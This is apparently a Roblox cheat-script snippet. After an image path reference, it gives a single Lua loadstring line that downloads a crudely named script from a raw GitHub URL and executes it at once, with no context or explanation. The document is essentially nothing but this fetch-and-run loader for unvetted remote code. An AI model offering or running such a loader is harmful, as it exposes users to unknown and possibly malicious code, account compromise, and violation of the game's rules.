 loadstring(game:HttpGet("https://raw.githubusercontent.com/or3s/Eg-Script-LoLoLoL-Made-By-.zabi-DOT-Z-A-B-I/refs/heads/main/cum.lua",true))()
